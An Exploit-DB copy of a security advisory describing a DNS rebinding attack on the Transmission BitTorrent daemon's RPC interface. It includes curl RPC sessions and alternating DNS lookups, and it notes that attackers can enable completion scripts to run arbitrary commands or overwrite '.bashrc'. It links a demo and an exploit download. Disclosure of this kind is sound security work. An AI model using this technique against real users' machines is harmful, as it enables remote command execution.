 The transmission bittorrent client uses a client/server architecture, the user interface is the client and a daemon runs in the background managing the downloading, seeding, etc.

Clients interact with the daemon using JSON RPC requests to a web server listening on port 9091. By default, the daemon will only accept requests from localhost.

A sample RPC session looks like this:

```
$ curl -H 'X-Transmission-Session-Id: foo'  -sI '{}' http://localhost:9091/transmission/rpc
HTTP/1.1 409 Conflict
Server: Transmission
X-Transmission-Session-Id: JL641xTn2h53UsN6bVa0kJjRBLA6oX1Ayl06AJwuhHvSgE6H
Date: Wed, 29 Nov 2017 21:37:41 GMT
```

```
$ curl -H 'X-Transmission-Session-Id: JL641xTn2h53UsN6bVa0kJjRBLA6oX1Ayl06AJwuhHvSgE6H'  -d '{"method":"session-set","arguments":{"download-dir":"/home/user"}}' -si http://localhost:9091/transmission/rpc
HTTP/1.1 200 OK
Server: Transmission
Content-Type: application/json; charset=UTF-8
Date: Wed, 29 Nov 2017 21:38:57 GMT
Content-Length: 36

{"arguments":{},"result":"success"}
```

As with all HTTP RPC schemes like this, any website can send requests to the daemon with XMLHttpRequest, but the theory is they will be ignored because requests must read and request a specific header, X-Transmission-Session-Id. Unfortunately, this design doesn't work because of an attack called "dns rebinding". Any website can simply create a dns name that they are authorized to communicate with, and then make it resolve to localhost.

The attack works like this:

1. A user visits http://attacker.com.
2. attacker.com has an <iframe> to attack.attacker.com, and have configured their DNS server to respond alternately with 127.0.0.1 and 123.123.123.123 (an address they control) with a very low TTL.
3. When the browser resolves to 123.123.123.123, they serve HTML that waits for the DNS entry to expire, then they XMLHttpRequest to attack.attacker.com and have permission to read and set headers.

You can test this attack like this, I have a domain I use for testing called rbndr.us, you can use this page to generate hostnames:

https://lock.cmpxchg8b.com/rebinder.html

Here I want to alternate between 127.0.0.1 and 199.241.29.227, so I use 7f000001.c7f11de3.rbndr.us:

```
$ host 7f000001.c7f11de3.rbndr.us
7f000001.c7f11de3.rbndr.us has address 127.0.0.1
$ host 7f000001.c7f11de3.rbndr.us
7f000001.c7f11de3.rbndr.us has address 199.241.29.227
$ host 7f000001.c7f11de3.rbndr.us
7f000001.c7f11de3.rbndr.us has address 127.0.0.1
```

Here you can see the resolution alternates between the two addresses I want (note that depending on caching it might take a while to switch, the TTL is set to minimum but some servers round up).

I just wait for the cached response to expire, and then POST commands to the server.

Exploitation is simple, you could set script-torrent-done-enabled and run any command, or set download-dir to /home/user/ and then upload a torrent for ".bashrc".

Here is my (simple) demo:

http://lock.cmpxchg8b.com/Asoquu3e.html

See screenshots for how it's supposed to work, I've only tested it on fedora with `yum install transmission-daemon` and all default settings, but this should work on any platform that transmission supports.

EDB Note ~ https://bugs.chromium.org/p/project-zero/issues/detail?id=1447
EDB Note ~ https://github.com/transmission/transmission/pull/468
EDB Note ~ https://github.com/taviso/rbndr/tree/a189ffd9447ba78aa2702c5649d853b6fb612e3b

Download: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/43665.zip